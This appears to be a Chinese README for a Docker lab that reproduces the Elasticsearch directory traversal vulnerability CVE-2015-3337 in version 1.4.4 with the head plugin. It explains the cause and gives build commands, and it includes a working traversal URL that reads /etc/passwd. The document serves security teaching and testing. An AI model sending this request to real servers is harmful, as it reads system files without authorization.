 # ElasticSearch 目录穿越漏洞（CVE-2015-3337）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.4

影响版本：1.4.5以下/1.5.2以下

## 原理

在安装了具有“site”功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

## 测试环境

编译及运行测试环境

```
docker compose build
docker compose up -d
```

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![](1.png)

## head插件

head插件提供了elasticsearch的前端页面，访问 `http://your-ip:9200/_plugin/head/` 即可看到，不多说了。
